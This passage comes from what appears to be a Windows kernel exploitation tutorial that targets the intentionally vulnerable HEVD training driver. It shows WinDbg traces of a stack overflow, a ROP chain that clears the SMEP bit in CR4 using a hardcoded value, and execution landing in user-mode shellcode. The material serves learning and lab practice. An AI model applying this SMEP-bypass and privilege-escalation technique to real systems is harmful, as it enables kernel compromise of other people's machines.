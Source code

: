 We run it with a breakpoint on the overwritten return address:

```
HEVD!TriggerBufferOverflowStack+0x10b:
fffff804`5e6f66bf c3              ret
0: kd> dq rsp
fffff088`b0910778  fffff804`3640a386 00000000`00000000
fffff088`b0910788  fffff804`365acd47 0000016d`86580000
fffff088`b0910798  41414141`41414141 41414141`41414141
fffff088`b09107a8  41414141`41414141 41414141`41414141
fffff088`b09107b8  41414141`41414141 41414141`41414141
fffff088`b09107c8  41414141`41414141 41414141`41414141
fffff088`b09107d8  41414141`41414141 41414141`41414141
fffff088`b09107e8  41414141`41414141 41414141`41414141
0: kd> p
nt!HalSendNMI+0x276:
fffff804`3640a386 59              pop     rcx
1: kd> p
nt!HalSendNMI+0x277:
fffff804`3640a387 c3              ret
1: kd> 
nt!KeFlushCurrentTbImmediately+0x17:
fffff804`365acd47 0f22e1          mov     cr4,rcx
1: kd> 
Unknown exception - code c0000096 (!!! second chance !!!)
nt!KeFlushCurrentTbImmediately+0x17:
fffff804`365acd47 0f22e1          mov     cr4,rcx
```

We get an exception – it does not allow us to write cr4 with zero. Let’s inspect its current value:

```
1: kd> r cr4
cr4=0000000000350ef8
```

We can hardcode the value and flip the 20th bit, then try again:

```
*(rop + index++) = 0x350ef8 ^ 1UL << 20;
```

```
1: kd> 
nt!KeFlushCurrentTbImmediately+0x17:
fffff800`737acd47 0f22e1          mov     cr4,rcx
1: kd> r rcx
rcx=0000000000250ef8
1: kd> p
nt!KeFlushCurrentTbImmediately+0x1a:
fffff800`737acd4a c3              ret
1: kd> p
0000026a`93680000 90              nop
1: kd> 
0000026a`93680001 90              nop
1: kd> 
0000026a`93680002 90              nop
```
